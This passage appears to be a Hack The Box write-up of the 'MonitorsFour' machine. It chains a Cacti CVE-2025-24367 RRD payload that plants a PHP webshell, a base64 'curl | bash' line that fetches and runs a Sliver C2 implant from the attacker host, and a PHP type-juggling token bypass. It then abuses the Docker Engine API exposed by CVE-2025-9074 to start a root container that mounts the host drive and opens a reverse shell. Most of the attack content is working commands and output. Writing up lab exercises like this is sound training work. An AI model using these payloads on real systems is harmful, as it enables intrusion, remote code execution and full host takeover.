

- Select it, turn on Burpsuite intercept and click on the `Save` button at the bottom of the
`PING - Advanced Ping` page.



- Inside Burp, modify the value of the `right_axis_label`  parameter with the following payload

```
XXX
create my.rrd --step 300 DS:temp:GAUGE:600:-273:5000 RRA:AVERAGE:0.5:1:1200
graph shell.php -s now -a CSV DEF:out=my.rrd:temp:AVERAGE LINE1:out:<?=passthru(base64_decode($_GET[chr(99)]));?>
```

- The section of the payload which is shown below is our php webshell

```php
<?=passthru(base64_decode($_GET[chr(99)]));?>
```

- `chr(99)` is the encoded character `c`
- So our payload actually translates to

```php
<?=passthru(base64_decode($_GET['c']));?>
```

- This char encoding was used because providing a quoted string within the payload causes
the quotes to get replaced and our webshell doesn't work properly

```php
<?=passthru(base64_decode($_GET['cmd']));?>
```

```php
"time","<?=passthru(base64_decode($_GET[\cmd\]));?>"
1770353400,"NaN"
```

- Additionally, testing the exploit locally revealed that only a single character can be encoded in this
way for the payload to still work properly.
- Concatenating encoded characters as shown below didn't work.

```php
# decoded
<?=passthru(base64_decode($_GET['cmd']));?>
```

```php
# encoded
<?=passthru(base64_decode($_GET[chr(99).chr(109).chr(100)]));?>
```

- Select the whole payload in Burpsuite and press Ctrl+U to url encode it



- Then manually replace every instance of new line within the payload to `%0A`, so that the payload will
appear in Burp as a single line.



- Forward the request to the target server and turn off Burp's intercept.

- Navigate to `Console -> Create -> New Graphs` and create a graph using the template `PING - Advanced Ping`



- Navigate to `Graphs -> Default Tree -> Local Linux Machine` to trigger the payload execution.
An error saying  `ERROR: creating arguments` should appear. It is the signal that the payload was executed.

- The file `shell.php` should be created at the root of the cacti instance `/var/www/html`



- It can be tested using the base64 encoded `id` command.




### Testing CVE-2025-24367 against cacti.monitorsfour.htb

The same exploitation procedure was used against `cacti.monitorsfour.htb`. However, some peculiar differences
where found:

- The message "The Cacti Poller has not yet run", when trying to trigger the exploit from:
`Graphs -> Default Tree -> Local Linux Machine`.



- The location of `shell.php`, which was available at the `/cacti` path.





- The Exploitation process was also automated into a [custom script](https://github.com/r0psteev/hackthebox/blob/main/monitorsfour/cve-2025-24367.py)


# Post Exploitation

## Getting the user flag

- In `/home`, there is a folder for the `marcus` user.


- Inside `/home/marcus` the file `user.txt` was found.




## Deploying Sliver C2 implant

To easily explore and download artefacts from the target, a Sliver implant was deployed through the following
steps:

- Generate an implant which will connect to vpn IP address.

```
[server] sliver > generate -b 10.10.15.116:8001 --os linux

[*] Generating new linux/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 2m36s
[*] Implant saved to /home/devel/Documents/MonitorsFour/CVE-2025-24367/THIRSTY_MINUTE
```

- Start a listener job to which the implant will connect on port 8001.

```
[server] sliver > http -l 8001

[*] Starting HTTP :8001 listener ...
[*] Successfully started job #2

[server] sliver > jobs

 ID   Name   Protocol   Port   Domains 
==== ====== ========== ====== =========
 1    http   tcp        8000           
 2    http   tcp        8001
```

- Rename the binary

```
cp ./THIRSTY_MINUTE ../c
```

- Start an http server to serve the implant using `python3 -m http.server 9001`.

- Prepare a base64 encoded one liner to download and execute the `sliver.sh` script.

```sh
$ echo 'curl -sSL  http://10.10.15.116:9001/sliver.sh | bash' | base64
Y3VybCAtc1NMICBodHRwOi8vMTAuMTAuMTUuMTE2OjkwMDEvc2xpdmVyLnNoIHwgYmFzaAo=
```

- Use the base64 encoded payload above as parameter to the webshell on cacti.

```
http://cacti.monitorsfour.htb/cacti/shell.php?c=Y3VybCAtc1NMICBodHRwOi8vMTAuMTAuMTUuMTE2OjkwMDEvc2xpdmVyLnNoIHwgYmFzaAo=
```

- The script `sliver.sh` script fetches the Sliver implant binary, saves it in the `/tmp` folder
of the container and runs it.

```sh
#!/bin/bash

IP="10.10.15.116"
PORT="9001"

rm -rf /tmp/c; curl http://$IP:$PORT/c -o /tmp/c; chmod +x /tmp/c; /tmp/c;
```

- The implant might take some time to connect back.

```sh
$ python3 -m http.server 9001

10.129.3.178 - - [14/Feb/2026 07:48:04] "GET /sliver.sh HTTP/1.1" 200 -
10.129.3.178 - - [14/Feb/2026 07:48:06] "GET /c HTTP/1.1" 200 -
```

```
[*] Session 64c6149b THIRSTY_MINUTE - 10.129.3.178:49877 (821fbd6a43fa) - linux/amd64 - Sat, 14 Feb 2026 07:49:16 WAT

[server] sliver > sessions

 ID         Transport   Remote Address       Hostname       Username   Operating System   Health  
========== =========== ==================== ============== ========== ================== =========
 4d9819ed   http(s)     172.18.0.3:52878     c7dafcf68523   www-data   linux/amd64        [ALIVE] 
 64c6149b   http(s)     10.129.3.178:49877   821fbd6a43fa   www-data   linux/amd64        [ALIVE] 
```

- Download recursively the source code of the main MonitorsFour web app.

```
[server] sliver (THIRSTY_MINUTE) > cd /var/www

[*] /var/www
```

```
[server] sliver (THIRSTY_MINUTE) > ls

/var/www (3 items, 12.0 KiB)
============================
drwxr-xr-x   root:root          .     <dir>  Mon Nov 10 17:01:08 +0000 2025
drwxr-xr-x   www-data:www-data  app   <dir>  Thu Oct 30 08:12:13 +0000 2025
dtrwxrwxrwx  www-data:www-data  html  <dir>  Thu Oct 30 08:05:05 +0000 2025


[server] sliver (THIRSTY_MINUTE) > download -r app

[*] Wrote 9598602 bytes (1977 files successfully, 0 files unsuccessfully) to /home/devel/Documents/MonitorsFour/CVE-2025-24367/THIRSTY_MINUTE_download_var_www_app__1771053099.tar.gz

[server] sliver (THIRSTY_MINUTE) >
```

## Why did the `?token` parameter fuzzing Work ?

### `index.php` routes

In `app/index.php` of the main app's source code, there were a number of routes registered using the `$router` object, to which controller
classes were bound.

```php
// API Routes
$router->new('GET', '/api/v1/user', 'UserController@get_user');
$router->new('GET', '/api/v1/users', 'UserController@get_users');
$router->new('POST', '/api/v1/auth', 'AuthController@login');
$router->new('GET', '/api/v1/logout', 'AuthController@logout');
$router->new('POST', '/api/v1/reset', 'AuthController@forgot');
```

Among these routes, there is the vulnerable route `/api/v1/users`, which was the one exploited during fuzzing.
This route uses the controller `UserController@get_users`, where `get_users` is a method under the
`UserController` class.

### `UserController@get_users`

```php
    public function get_users($router)
    {
        $token = $_GET['token'] ?? null;

        if ($token === null) {
            echo json_encode(["error" => "Missing token parameter"]);
            exit;
        }

        $auth = new AuthController();
        if (!$auth->validate_token($token)) {
            header("Content-Type: application/json");
            echo json_encode(["error" => "Invalid or missing token"]);
            exit;
        }

        $stmt = $this->db->query("SELECT * FROM users");
        $users = $stmt->fetchAll();

        return json_encode($users);
    }
```

Overall, the `get_users` method:
- checks that the `token` parameter we provide isn't `null`
- creates an `$auth` object from the `AuthController` class to validate the token using the method
`auth->validate_token`.
- Finally fetches all users from the database.

### `AuthController@validate_token`

```php
    public function validate_token($token): bool
    {
        $query = "SELECT token FROM users";
        $stmt  = $this->db->query($query);
        $tokens = $stmt->fetchAll(PDO::FETCH_COLUMN);

        foreach ($tokens as $db_token) {
            if ($token == $db_token) {
                return true;
            }
        }

        return false;
    }
```

The `validate_token` method basically fetches all tokens in the database and compares them with the token
we provided using the double equal sign.

Since in our fuzzing payload we provided `?token=0`, it means it is basically comparing our string "0" with
every token in the database.

The following `test.php` script below tries to redo that comparison logic against the tokens of the database.

```php
<?php
  $tokens = [
    "8024b78f83f102da4f",
    "0e543210987654321",
    "0e999999999999999",
    "0e111111111111111",
  ];

  foreach ($tokens as $db_token) {
    if ("0" == $db_token) {
        echo "Yes: ".$db_token . "\n";
    }
  }
?>
```

On running it, It was found that the tokens that start with `0e...` all validate the comparison condition.

```sh
└──╼ $php test.php 
Yes: 0e543210987654321
Yes: 0e999999999999999
Yes: 0e111111111111111
```

This suggests that they are not considered as strings by the php interpreter, but as exponents. This is known as
type juggling and it is induced by the loose comparison of the `==` which triggers the interpretation of `0e...` as
a numeric value (0 to the exponent `...`) before been compared to the payload "0".  

## CVE-2025-9074

CVE-2025-9074 is a vulnerability in Docker Desktop prior to version 4.44.3, whereby the Docker Engine API is
exposed to locally running containers via the configured subnet `192.168.65.7:2375`.
The IP address `192.168.65.7` is an internal gateway address used by Docker Desktop for communication between
containers and the underlying Docker Desktop virtual machine.

Shout out to [@tameen](https://tameen.it/) and @zerokoollabs on hackthebox for their help on this vulnerability.

From prior enumeration of the MonitorsFour main web app, it was found in the changelog that the version of
Docker Desktop in use by the target is Docker Desktop 4.44.2, which is vulnerable.

This vulnerability was exploited as follows:


### Enumerating available images

- Through the exposed Docker Engine API, available Docker images on the target were listed.

```sh
curl http://192.168.65.7:2375/images/json > /tmp/images.json
```

```json
[
  {
    "Containers": 1,
    "Created": 1762794130,
    "Id": "sha256:93b5d01a98de324793eae1d5960bf536402613fd5289eb041bac2c9337bc7666",
    "Labels": {
      "com.docker.compose.project": "docker_setup",
      "com.docker.compose.service": "nginx-php",
      "com.docker.compose.version": "2.39.1"
    },
    "ParentId": "",
    "Descriptor": {
      "mediaType": "application/vnd.oci.image.index.v1+json",
      "digest": "sha256:93b5d01a98de324793eae1d5960bf536402613fd5289eb041bac2c9337bc7666",
      "size": 856
    },
    "RepoDigests": [
      "docker_setup-nginx-php@sha256:93b5d01a98de324793eae1d5960bf536402613fd5289eb041bac2c9337bc7666"
    ],
    "RepoTags": [
      "docker_setup-nginx-php:latest"
    ],
    "SharedSize": -1,
    "Size": 1277167255
  },
  {
    "Containers": 1,
    "Created": 1762791053,
    "Id": "sha256:74ffe0cfb45116e41fb302d0f680e014bf028ab2308ada6446931db8f55dfd40",
    "Labels": {
      "com.docker.compose.project": "docker_setup",
      "com.docker.compose.service": "mariadb",
      "com.docker.compose.version": "2.39.1",
      "org.opencontainers.image.authors": "MariaDB Community",
      "org.opencontainers.image.base.name": "docker.io/library/ubuntu:noble",
      "org.opencontainers.image.description": "MariaDB Database for relational SQL",
      "org.opencontainers.image.documentation": "https://hub.docker.com/_/mariadb/",
      "org.opencontainers.image.licenses": "GPL-2.0",
      "org.opencontainers.image.ref.name": "ubuntu",
      "org.opencontainers.image.source": "https://github.com/MariaDB/mariadb-docker",
      "org.opencontainers.image.title": "MariaDB Database",
      "org.opencontainers.image.url": "https://github.com/MariaDB/mariadb-docker",
      "org.opencontainers.image.vendor": "MariaDB Community",
      "org.opencontainers.image.version": "11.4.8"
    },
    "ParentId": "",
    "Descriptor": {
      "mediaType": "application/vnd.oci.image.index.v1+json",
      "digest": "sha256:74ffe0cfb45116e41fb302d0f680e014bf028ab2308ada6446931db8f55dfd40",
      "size": 856
    },
    "RepoDigests": [
      "docker_setup-mariadb@sha256:74ffe0cfb45116e41fb302d0f680e014bf028ab2308ada6446931db8f55dfd40"
    ],
    "RepoTags": [
      "docker_setup-mariadb:latest"
    ],
    "SharedSize": -1,
    "Size": 454269972
  },
  {
    "Containers": 0,
    "Created": 1759921496,
    "Id": "sha256:4b7ce07002c69e8f3d704a9c5d6fd3053be500b7f1c69fc0d80990c2ad8dd412",
    "Labels": null,
    "ParentId": "",
    "Descriptor": {
      "mediaType": "application/vnd.oci.image.index.v1+json",
      "digest": "sha256:4b7ce07002c69e8f3d704a9c5d6fd3053be500b7f1c69fc0d80990c2ad8dd412",
      "size": 9218
    },
    "RepoDigests": [
      "alpine@sha256:4b7ce07002c69e8f3d704a9c5d6fd3053be500b7f1c69fc0d80990c2ad8dd412"
    ],
    "RepoTags": [
      "alpine:latest"
    ],
    "SharedSize": -1,
    "Size": 12794775
  }
]
```

- The following images were found on the target:
  - `docker_setup-nginx-php:latest`
  - `docker_setup-mariadb:latest`
  - `alpine:latest`


### Build a `container.json` file

A json file was built to create a container through the API that will mount the host's `C:/` drive
and connect to our attacker machine through a reverse shell.

This is similar to creating a container through the `docker build` command.

```json
{
        "Image":"docker_setup-nginx-php:latest",
        "Cmd":["sh","-c","php -r '$sock=fsockopen(\"10.10.15.43\",9001);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"],
        "HostConfig":{
                "Binds":["/mnt/host/c:/host_root"]
        }
}
```


### Execute the `container.json` file

- The `container.json` file was uploaded to the MonitorsFour cacti container

```
[server] sliver (STUPID_CASTANET) > upload ./container.json /tmp/

[*] Wrote 1 file successfully to /tmp/container.json
```

- Through the exposed Docker Engine API, a container was created from the specifications of the `container.json` file

```sh
curl -v -H 'Content-Type: application/json' -d @container.json http://192.168.65.7:2375/containers/create > create.json
```

```sh
www-data@821fbd6a43fa:/tmp$ cat create.json
{"Id":"0d69d5d690dbc6210641d5410fc6c9ed106d6e6e19f67c7e4b303557d32874c2","Warnings":[]}
```

- The created container was started using its Id returned from the response.

```sh
curl -v -H 'Content-Type: application/json' -XPOST http://192.168.65.7:2375/containers/0d69d5d690dbc6210641d5410fc6c9ed106d6e6e19f67c7e4b303557d32874c2/start
```

- A reverse shell was obtained in this container as the root user.

```sh
└──╼ $nc -lvvp 9001
Listening on 0.0.0.0 9001
Connection received on monitorsfour.htb 57320
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

```sh
# ls /host_root
$RECYCLE.BIN
$WinREAgent
Documents and Settings
DumpStack.log.tmp
PerfLogs
Program Files
Program Files (x86)
ProgramData
Recovery
System Volume Information
Users
Windows
Windows.old
inetpub
pagefile.sys
```

- The root flag was obtained.

```sh
# ls /host_root/Users/Administrator/Desktop
desktop.ini
root.txt
# cat /host_root/Users/Administrator/Desktop/root.txt
4e8016ca************************
```


# Reference

- https://0xdf.gitlab.io/2025/01/18/htb-monitorsthree.html# 
- https://github.com/danielmiessler/seclists
- https://github.com/r0psteev/hackthebox/blob/main/monitorsfour/brute.py
- https://github.com/Cacti/cacti/security/advisories/GHSA-fxrq-fr7h-9rqq
- https://github.com/vulhub/vulhub/tree/master/cacti/CVE-2025-24367
- https://medium.com/@929319519qq/cve-2025-24367-exploit-no-code-59aff124d547
- https://github.com/r0psteev/hackthebox/blob/main/monitorsfour/cve-2025-24367.py
- https://infosecwriteups.com/only-two-lines-of-code-simple-docker-trick-gives-attackers-host-access-a638293f43ad